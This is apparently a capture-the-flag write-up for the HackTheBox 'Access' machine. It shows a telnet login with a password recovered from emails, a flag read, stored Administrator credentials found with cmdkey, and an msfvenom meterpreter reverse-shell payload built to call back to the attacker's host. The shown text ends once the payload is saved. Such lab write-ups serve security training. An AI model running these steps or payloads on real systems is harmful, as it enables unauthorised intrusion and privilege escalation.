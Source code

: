 ----boundary-LibPST-iamunique-168096009_-_---



reading through the emails, we find a  username and a password
 “security” account has been changed to 4Cc3ssC0ntr0ller. 

 we can use telnet to log in


  ┌──(kali㉿kali)-[~/Practice/HackTheBox/Access]
└─$ telnet 10.10.10.98    
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
USER Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>


C:\Users\security\Desktop>type user.txt
21d0bb3ed77adf2dd4d2bc5278a878b8


PRIVESC TIME:

C:\Users\security\Desktop>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator



this means that administrators key is saved on the local machine we can use runas in order to run everthing as administrator, without the need for a password


How to escalate privileges?

1.create an executable payload 
2.upload it on the machine 
3.start a listener
4.execute the payload as administrator
5.if everything goes well, we should receive a reverse connection as administrator user ( In theory!)


1. create an executable payload
kali㉿kali)-[~/Practice/HackTheBox/Access]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=9001 -f exe -o door.exe      
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: door.exe
